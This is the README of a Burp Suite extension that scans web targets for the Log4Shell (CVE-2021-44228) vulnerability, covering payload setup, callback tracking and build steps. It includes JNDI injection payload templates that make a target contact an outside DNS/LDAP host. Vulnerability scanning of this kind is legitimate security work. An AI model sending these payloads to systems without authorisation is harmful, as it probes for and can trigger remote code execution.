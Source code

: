 <h1 align="center">
  <br>
  Log4J Scanner
</h1>

<h4 align="center">Burp extension to scan Log4Shell (CVE-2021-44228) vulnerability pre and post auth.</h4>

---

<p align="center">
  <a href="https://github.com/0xDexter0us/Log4J-Scanner/releases">
    <img src="https://img.shields.io/github/release/0xDexter0us/Log4J-Scanner.svg">
  </a>
  <a href="https://github.com/0xDexter0us/Log4J-Scanner/">
      <img src="https://img.shields.io/github/stars/0xDexter0us/Log4J-Scanner.svg?style=social&label=Stars">
  </a>
  <a href="https://github.com/0xDexter0us/Log4J-Scanner/">
    <img src="https://img.shields.io/github/followers/0xDexter0us.svg?style=social&label=Follow">
  </a>
  <a href="https://twitter.com/intent/follow?screen_name=0xDexter0us">
      <img src="https://img.shields.io/twitter/follow/0xDexter0us.svg?style=social&label=Follow">
  </a>
  <a href="https://discord.gg/bugbounty">
      <img src="https://img.shields.io/badge/chat-on%20discord-7289da.svg">
  </a>

</p>

---
## Disclaimer
> I am not responsible for your actions, burp-suite freezing, target getting hacked, thermonuclear war, or the current economic crisis caused by you following these directions. YOU are choosing to use this tool, and if you point your finger at me for messing anything up, I will LMAO at you.

---
![Log4J-Scanner](https://github.com/0xDexter0us/Log4J-Scanner/blob/main/images/log4j-scanner.png)

## Instructions:
 - Add a DNS token from any service you prefer [interact.sh](https://app.interactsh.com), [pipedream](https://pipedream.com), [canarytokens](https://canarytokens.org), [dnslog.cn](https://dnslog.cn) or burp collaborator.
 - Either select one of the pre-defined payload or add a custom payload.
 - Add custom payload as: `${jndi:ldap://[dnstoken]/[random]` as `dnstoken`and `random` are place-holders, also remember __NOT__ to add `}`closing curly bracket.
 - Select location for payload insertion, headers or parameters or both.
 - For post-auth scanning add the complete cookie, auth header. Eg: `Authorization: Bearer ya29.m.CvkBAd1XLWYfLkuHFIuOYFCfcGI137rr...`
 - Hit **Hack The Planet** button.

### Important instructions to remember:

 - You'll need [Logger++](https://github.com/nccgroup/LoggerPlusPlus) or [Flow](https://github.com/hvqzao/burp-flow) extension to trace the request triggering the DNS callback.
 - Remember to add this extension above [Logger++](https://github.com/nccgroup/LoggerPlusPlus) or [Flow](https://github.com/hvqzao/burp-flow) to track all out going requests.

 ![Burp-Externder](https://github.com/0xDexter0us/Log4J-Scanner/blob/main/images/extender.png)

### How to track callbacks:

- Payload triggering callback will contain a 6 character unique ID
- Example payload `${jndi:ldap://example.interact.sh/ABC123` where `ABC123` will be the unique ID
- You can search for this ID in [Logger++](https://github.com/nccgroup/LoggerPlusPlus) or [Flow](https://github.com/hvqzao/burp-flow) to trace the request.

## Download releases
`https://github.com/0xDexter0us/Log4J-Scanner/releases/`

## Build from source
* `./gradlew build fatJar`
* Grab the jar file `build/libs/Log4J-Scanner-x.x.x.jar`

## Installation
1. Download the latest jar from releases or build from source.
2. Add the jar to Burp Suite.



#### If you like the project, please give the repo a star! <3

## Resources

- For passive scanning: `https://github.com/f0ng/log4j2burpscanner`
- For active scanning: `https://github.com/albinowax/ActiveScanPlusPlus`


## Changelog

**13 December 2021 - v.0.1.0**
 - First public release

## Thanks To

* CoreyD97 - https://github.com/CoreyD97


### This was coded be me within a day and is an initial release, bug might occur, bug reports, suggestions and pull requests all are welcome :)

-----

[![Join our Discord server!](https://invidget.switchblade.xyz/bugbounty)](http://discord.gg/bugbounty)

[![ko-fi](https://ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/Q5Q76ZT6K)
